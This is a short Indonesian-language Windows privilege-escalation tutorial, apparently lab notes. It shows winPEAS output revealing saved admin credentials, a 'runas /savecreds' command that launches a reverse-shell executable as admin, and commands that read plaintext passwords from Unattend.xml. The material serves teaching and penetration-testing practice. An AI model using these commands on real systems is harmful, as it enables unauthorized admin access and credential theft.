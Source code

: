 #### Recon
```
winPEASany.exe quiet cmd windowscreds
```
Hasilnya
```
  [+] Checking Credential manager()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault

Currently stored credentials:

    Target: MicrosoftAccount:target=SSO_POP_Device
    Type: Generic 
    User: 02tzrympzjqpdvtu
    Saved for this logon only
    
    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02tzrympzjqpdvtu
    Local machine persistence
    
    Target: Domain:interactive=DESKTOP-FHFUEUQ\admin
    Type: Domain Password
    User: DESKTOP-FHFUEUQ\admin

```

Terdapat Saved Creds Admin. Kita bisa verifikasi manual dengan cara 
```
cmdkey /list
```
Dari hasil ini kita bisa menjalankan file reverse shell dengan user sebagai admin
```
runas /savecreds /user:admin C:\PrivEsc\rev.exe
```

### Configuration Files
Terkadang administrators menyimpan file configurations pada sistem yang berisi password. 

File Unattend.xml adalah contohnya, file ini bisa digunakan oleh admin untuk melakukan automated setup pada sistem windows

#### Recon
```
winPEASany.exe quiet cmd searchfast filesinfo
```
Hasilnya
```
[+] Unnattend Files()
    C:\Windows\Panther\Unattend.xml
<Password>     
```
Selanjutnya kita lihat isi dari `Unattend.xml`
```
type C:\Windows\Panther\Unattend.xml
```
Dan cari password di dalamnya. 
